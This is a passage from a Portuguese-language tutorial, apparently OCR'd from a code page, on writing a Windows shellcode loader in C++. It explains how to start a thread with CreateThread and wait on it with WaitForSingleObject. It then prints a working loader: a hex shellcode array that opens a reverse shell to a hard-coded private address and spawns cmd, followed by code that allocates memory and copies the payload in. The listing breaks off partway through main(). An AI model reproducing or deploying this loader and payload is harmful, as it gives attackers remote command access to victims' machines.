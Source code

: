 A função `WaitForSingleObject` espera que o objeto especificado seja sinalizado ou que o intervalo de tempo especificado expire. Ela tem a seguinte sintaxe:

```cpp
DWORD WaitForSingleObject(
  [in] HANDLE hHandle,
  [in] DWORD  dwMilliseconds
);
```

Onde:

- **`hHandle`**: Um manipulador para o objeto de sincronização. Neste caso, `thread` é o manipulador da thread criada anteriormente com `CreateThread`.
- **`dwMilliseconds`**: O intervalo de tempo, em milissegundos, pelo qual a função espera que o objeto seja sinalizado. Passar `-1` (ou `INFINITE`) faz com que a função espere indefinidamente até que o objeto seja sinalizado.

Montando a função no código, temos a seguinte linha:

```cpp
WaitForSingleObject(thread, -1);
```

Portanto, a condição que montaremos no código fica da seguinte forma:

```cpp
if ( rx != 0 ) {
	thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
	WaitForSingleObject(thread, -1);
}
```

Uma vez com estas alterações, o código final deve estar da seguinte forma:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char shellcode[] = "\x31\xc0\x64\xa1\x30\x00\x00\x00\x8b\x40\x0c\x8b\x40\x14\x8b\x00\x8b\x00\x8b\x58\x10\x31\xd2\x68\x73\x73\x4e\x4e\x66\x81\x6c\x24\x02\x4e\x4e\x68\x64\x64\x72\x65\x68\x72\x6f\x63\x41\x68\x47\x65\x74\x50\x8b\x53\x3c\x01\xda\x8b\x52\x78\x01\xda\x8b\x4a\x20\x01\xd9\x89\x4d\xfc\x8b\x52\x1c\x01\xda\x31\xc0\x31\xc9\x89\xe6\x8b\x7d\xfc\x8b\x3c\x87\x01\xdf\x66\x83\xc1\x07\xf3\x66\xa7\x74\x03\x40\xe2\xe8\x83\xc0\x02\x8b\x3c\x82\x01\xdf\x89\xfd\x31\xc9\x51\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x53\xff\xd5\x68\x33\x32\x4e\x4e\x66\x81\x6c\x24\x02\x4e\x4e\x68\x77\x73\x32\x5f\x54\xff\xd0\x89\xc6\x68\x75\x70\x4e\x4e\x66\x81\x6c\x24\x02\x4e\x4e\x68\x74\x61\x72\x74\x68\x57\x53\x41\x53\x54\x56\xff\xd5\x31\xd2\x66\xba\x90\x01\x29\xd4\x54\x52\xff\xd0\x68\x74\x41\x4e\x4e\x66\x81\x6c\x24\x02\x4e\x4e\x68\x6f\x63\x6b\x65\x68\x57\x53\x41\x53\x54\x56\xff\xd5\x31\xd2\x52\x52\x52\xb2\x06\x52\x80\xea\x05\x52\x42\x52\xff\xd0\x50\x5f\x68\x65\x63\x74\x4e\x66\x83\x6c\x24\x03\x4e\x68\x63\x6f\x6e\x6e\x54\x56\xff\xd5\xba\xc1\xa9\x48\x81\x81\xea\x01\x01\x01\x01\x52\x66\x68\x20\xfb\x31\xd2\xb2\x02\x66\x52\x89\xe2\x6a\x10\x52\x57\xff\xd0\x68\x73\x41\x4e\x4e\x66\x81\x6c\x24\x02\x4e\x4e\x68\x6f\x63\x65\x73\x68\x74\x65\x50\x72\x68\x43\x72\x65\x61\x54\x53\xff\xd5\x89\xde\x68\x63\x6d\x64\x4e\x66\x83\x6c\x24\x03\x4e\x89\xe3\x57\x57\x57\x31\xff\x6a\x12\x59\x57\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\xc6\x44\x24\x10\x44\x8d\x4c\x24\x10\x54\x51\x57\x57\x57\x47\x57\x4f\x57\x57\x53\x57\xff\xd0\x68\x65\x73\x73\x4e\x66\x83\x6c\x24\x03\x4e\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x54\x56\xff\xd5\x31\xc9\x51\xff\xd0";

unsigned int shellcode_size = sizeof(shellcode);

int main(void) {
    DWORD oldProtect = 0;
    BOOL rx;
    HANDLE thread;

    void *exec_mem = VirtualAlloc(0, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    RtlMoveMemory(exec_mem, shellcode, shellcode_size);

```